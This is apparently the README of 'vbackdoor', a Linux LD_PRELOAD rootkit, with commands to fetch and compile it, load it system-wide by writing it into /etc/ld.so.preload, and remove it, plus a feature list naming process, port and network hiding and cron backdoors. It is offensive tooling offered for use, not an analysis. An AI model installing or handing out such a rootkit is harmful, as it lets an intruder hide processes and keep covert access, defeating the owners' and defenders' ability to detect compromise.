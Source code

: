 # vbackdoor
[中文](https://github.com/veo/vbackdoor/blob/main/README_cn.md)

Hide process,port,self under Linux using the LD_PRELOAD rootkit.

### Compile the library

```
git clone https://github.com/veo/vbackdoor.git
cd vbackdoor
vi vbackdoor.c
make
sudo mv vbackdoor.so /usr/local/lib/
```

or

```
wget https://raw.githubusercontent.com/veo/vbackdoor/main/vbackdoor.c
vi vbackdoor.c
gcc -Wall -fPIC -shared -o vbackdoor.so vbackdoor.c -ldl
sudo mv vbackdoor.so /usr/local/lib/
```

### Load it with the global dynamic linker

```
echo /usr/local/lib/vbackdoor.so >> /etc/ld.so.preload
```

### Remove

```
vi /etc/ld.so.preload
```

and delete string "/usr/local/lib/vbackdoor.so"


or


use busybox
```
rm -rf /etc/ld.so.preload
```

  * Process hiding
  * LD_PRELOAD hiding
  * Network hiding
  * cron Backdoors
